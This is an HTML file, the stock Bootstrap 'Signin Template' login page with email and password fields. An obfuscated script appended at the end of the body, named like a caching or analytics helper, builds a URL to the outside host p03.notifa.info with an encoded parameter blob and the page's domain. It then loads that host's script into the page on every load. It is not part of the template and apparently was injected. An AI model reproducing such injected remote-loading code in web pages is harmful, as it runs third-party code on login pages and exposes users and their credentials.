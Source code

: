 <!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">
    <link rel="icon" href="../../../../favicon.ico">

    <title>Signin Template for Bootstrap</title>

    <!-- Bootstrap core CSS -->
    <link href="../../dist/css/bootstrap.min.css" rel="stylesheet">

    <!-- Custom styles for this template -->
    <link href="signin.css" rel="stylesheet">
  </head>

  <body class="text-center">
    <form class="form-signin">
      <img class="mb-4" src="../../assets/brand/bootstrap-solid.svg" alt="" width="72" height="72">
      <h1 class="h3 mb-3 font-weight-normal">Please sign in</h1>
      <label for="inputEmail" class="sr-only">Email address</label>
      <input type="email" id="inputEmail" class="form-control" placeholder="Email address" required autofocus>
      <label for="inputPassword" class="sr-only">Password</label>
      <input type="password" id="inputPassword" class="form-control" placeholder="Password" required>
      <div class="checkbox mb-3">
        <label>
          <input type="checkbox" value="remember-me"> Remember me
        </label>
      </div>
      <button class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
      <p class="mt-5 mb-3 text-muted">&copy; 2017-2018</p>
    </form>
  <script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p03.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582PbDUVNc7V%2bdIyoaBvx3UwZ8H%2bGkhk2nLMRAg4yExck%2fhVczLc3Uac%2bQVzVuw4WJwWvhh%2f0CwO7hnKfX1onsQzN41ja%2fPWL%2bw%2fXej%2fEgw0dx1nlF2PNtrNaH%2f3Y%2bOq9ZoqjaYS%2fm1wjDlZxJfKgKsWFwTEAmiOTrKPlqJ16Wn6mlETu5xJinZGRoabirwnG8CzvZP4CehO1vvmRGSI7cYvInqsA0%2be5AB0Smgm9fdZGJTT%2fc9yQ1AGY0S5S7cGtMKshJ3iXYgrSa1GD4c2kA3tkcgX8tj3Iy8nswZOC23jLpz9hrjsW%2fO%2buwyym1zEHchLArceIfNIq4zmN8EGuI2e%2bEr%2bBL1Hfv8C8otbq3S5miwIbllpGUwT23pgrAzx1BwXp3Xwdf4QjD0DHBTYx2agGNhx5n6vSbmfw1%2bDHG0ljLAcolJgo4pXNRQsWB%2f8ftXLWUWTO1e%2bCpalvhUg1%2bhxbf7BbOT%2bIvdpf%2bsSchgw3nWid5vNCrMlpJHvHYfZpxQnNb1ALl%2fZ0%2f" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script></body>
</html>
